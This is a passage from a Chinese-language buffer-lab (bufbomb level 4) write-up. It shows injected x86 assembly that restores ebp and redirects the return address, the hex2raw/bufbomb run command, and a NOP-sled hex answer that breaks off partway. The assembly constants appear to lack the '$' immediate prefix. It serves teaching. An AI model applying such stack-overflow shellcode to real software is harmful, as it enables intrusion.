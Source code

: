 ​	另一个问题是：如何恢复ebp。我们无法获得原来的ebp的绝对值，但是知道ebp关于esp的相对值0x18，可以用其恢复ebp。下方代码块即攻击代码。

```assembly
movl 0x59ea0fda, %eax
leal 0x18(%esp), %ebp
pushl 0x08048d07
ret
/*还要加上用于覆盖的返回地址*/
```

​	将上面的汇编代码翻译成机器代码，再算上90，一共0x2c2+4=710个字符，最后加上用于覆盖的返回地址，用下面的命令运行即可。

cat level4.txt | ./hex2raw -n | ./bufbomb -n -u 21020007009

答案：

```
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
/*100*/
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
/*200*/
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
/*300*/
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
/*400*/
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
```